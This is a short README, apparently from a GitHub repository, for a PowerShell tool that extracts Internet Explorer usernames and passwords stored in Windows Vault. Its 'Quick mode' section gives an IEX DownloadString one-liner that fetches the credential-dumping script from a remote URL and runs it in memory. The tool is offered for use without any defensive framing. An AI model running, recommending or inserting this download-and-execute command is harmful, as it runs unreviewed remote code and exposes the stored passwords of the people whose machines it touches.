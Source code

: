 # Get-InternetExplorerPasswords
Get username/password/resource from Internet Explorer for current user in Windows 8-10 (over "Windows Vault").

# Quick mode
```powershell IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/A888R/Get-InternetExplorerPasswords/master/Get-InternetExplorerPasswords.ps1')```

